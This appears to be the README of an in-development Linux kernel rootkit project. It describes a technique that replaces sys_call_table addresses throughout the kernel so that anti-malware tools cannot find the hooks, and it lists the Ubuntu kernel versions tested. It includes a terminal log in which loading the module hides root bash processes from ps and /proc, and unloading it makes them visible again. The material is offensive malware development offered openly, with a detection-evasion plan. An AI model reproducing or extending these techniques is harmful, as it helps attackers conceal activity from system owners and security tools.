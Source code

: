 # No releases yet

This software is under development.  
There's not even 1 release yet.  
  
# Hooking technique

The idea is to replace the addresses of the sys_call_table in the whole kernel, avoiding anti malware to find hook handlers on the sys_call_table.  
It must find the rootkit's sys_call_table from the opcodes in the kernel.  

# Tested versions

Until commit https://github.com/D1W0U/ARP-RootKit/commit/3ac1022783b8b81225a54989fe10513c31e93a0b, those Linux Kernel versions are tested (under Ubuntu):  
- 4.13.0-31-generic  
- 4.13.0-26-generic  
- 4.11.0-13-generic  
- 4.10.0-42-generic  
- 4.10.0-14-generic  
- 4.8.0-36-generic  
- 4.4.0-101-generic  

But the rootkit is still in development. And atm doesn't stealths anything, nor give backdoor access. It just finds the places where sys_call_tables are, preparing the project (ttw I gave support to the before versions), to start the part of a rootkit itself.  

# The first commit of this project

At the beggining, I started doing research of ways of implementing a rootkit without hooking syscalls.  
And I found a way of hidding PIDs. The problem is that the process can't terminate ever.  
But maybe hooking sys_exit and restoring the pid into the structures of the kernel, it would be possible.  

Below an example of the working `rootkit.c` first commit:  

```
diwou@diwou-VirtualBox:~/arprootkit$ ps auwx | grep bash | grep root
root      3924  0.0  0.1  61932  4052 pts/9    S    13:10   0:00 sudo bash
root      3925  0.0  0.1  29960  5444 pts/9    S+   13:10   0:00 bash
diwou@diwou-VirtualBox:~/arprootkit$ grep 392 rootkit.c
        hide_pid(3924);
        hide_pid(3925);
diwou@diwou-VirtualBox:~/arprootkit$ sudo insmod rootkit.ko
find_vpid ffff9df24f34c180
Ok
find_vpid ffff9df24f34cb00
Ok
diwou@diwou-VirtualBox:~/arprootkit$ ps auwx | grep bash | grep root
diwou@diwou-VirtualBox:~/arprootkit$ ls /proc/3924
ls: no se puede acceder a '/proc/3924': No existe el archivo o el directorio
diwou@diwou-VirtualBox:~/arprootkit$ ls /proc/3925
ls: no se puede acceder a '/proc/3925': No existe el archivo o el directorio
diwou@diwou-VirtualBox:~/arprootkit$ sudo rmmod rootkit
Ok
Ok
diwou@diwou-VirtualBox:~/arprootkit$ ps auwx | grep bash | grep root
root      3924  0.0  0.1  61932  4052 pts/9    S    13:10   0:00 sudo bash
root      3925  0.0  0.1  29960  5444 pts/9    S+   13:10   0:00 bash
```

Here the https://github.com/D1W0U/ARP-RootKit/commit/217e1473cb41911f78fa7c8388e7d6ff2cc868cb
